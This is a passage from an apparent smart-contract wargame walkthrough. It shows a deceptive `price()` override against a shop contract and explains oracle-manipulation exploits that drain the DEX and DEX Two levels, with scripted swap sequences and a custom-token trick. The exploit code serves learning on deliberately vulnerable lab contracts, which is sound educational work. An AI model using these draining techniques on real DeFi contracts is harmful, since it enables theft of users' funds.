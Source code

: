```

    function price() public view override returns(uint) {
        bytes memory payload = abi.encodeWithSignature("isSold()");
        (, bytes memory result) = victim.staticcall(payload);
        bool sold = abi.decode(result, (bool));
        return sold ? 1 : 101;
    }
}
```

## 22. DEX

The exploit on this level is the reliance on a single oracle source for token price. Let's quickly walk through why this is a problem. Originally we were given 10A and 10B and the dex has 100A and 100B where A and B represents token 1 and 2 respectively. This gives us a price of 1A = 1B.

If we swap all of our A to B, our new balance is 0A and 20B. The dex has 110A and 90B. Now if we were to swap all our B back to A, the dex is actually quoting us a better price than what we originally swapped at (1:1). Our new balance is 24A and 0B while the dex has 86A and 110B. Repeat this a few more times by swapping your entire balance and you'll be able to drain the funds of the dex.
```
let a = await contract.token1();
let b = await contract.token2();
await contract.approve(instance, "1000000000000");
await contract.swap(a, b, 10);
await contract.swap(b, a, 20);
await contract.swap(a, b, 24);
await contract.swap(b, a, 30);
await contract.swap(a, b, 41);
await contract.swap(b, a, 45); // the reason why we use 45 here instead of the entire balance of B of 65 is because the dex doesn't have enough a to give back to us. So we need to calculate the right amount of b to use to ensure that we can fully drain a i.e. 110/156*65 = 45.
```

## 23. DEX TWO
This level is very similar to the previous level except you need to use a custom ERC20 token contract to drain the funds of the DEX. The reason why this is possible is because the swap doesn't require that the from / to has to be token1 and token2 so you can use a 3rd token and drain each side sequentially.

```

a = await contract.token1()
b = await contract.token2()
// Create a custom ERC20 token contract (C) and mint to yourself some tokens.
c = "<insert custom token address here>"

await c.approve(instance, 1000);
await c.transfer(instance, 1);
await contract.swap(c, a, 1);
await contract.swap(c, b, 2);
```
